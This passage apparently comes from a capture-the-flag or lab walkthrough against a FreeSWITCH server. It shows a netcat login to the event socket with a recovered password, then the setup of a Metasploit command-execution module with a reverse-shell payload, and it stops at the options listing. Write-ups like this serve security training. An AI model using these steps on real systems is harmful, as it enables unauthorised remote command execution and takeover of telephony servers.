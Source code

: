 We find that the file exists and the password is: **StrongClueConEight021**

```
kali@kali:~$ nc 192.168.120.155 8021
Content-Type: auth/request

auth StrongClueConEight021

Content-Type: command/reply
Reply-Text: +OK accepted
```

## Remote Command Execution

Using _Metasploit_ , we find a module that we can use to exploit `freeswitch`.

```
msf6 > search freeswitch

Matching Modules
================

   #  Name                                                  Disclosure Date  Rank       Check  Description
   -  ----                                                  ---------------  ----       -----  -----------
   0  exploit/multi/misc/freeswitch_event_socket_cmd_exec   2019-11-03       excellent  Yes    FreeSWITCH Event Socket Command Execution
...
```

We begin by checking the requisite options for the module.

```
msf6 > use exploit/multi/misc/freeswitch_event_socket_cmd_exec
[*] Using configured payload cmd/unix/reverse
msf6 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > options

Module options (exploit/multi/misc/freeswitch_event_socket_cmd_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  ClueCon          yes       FreeSWITCH event socket password
   RHOSTS                     yes       The target host(s), range CIDR identifier...
   RPORT     8021             yes       The target port (TCP)
...

Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
...
```
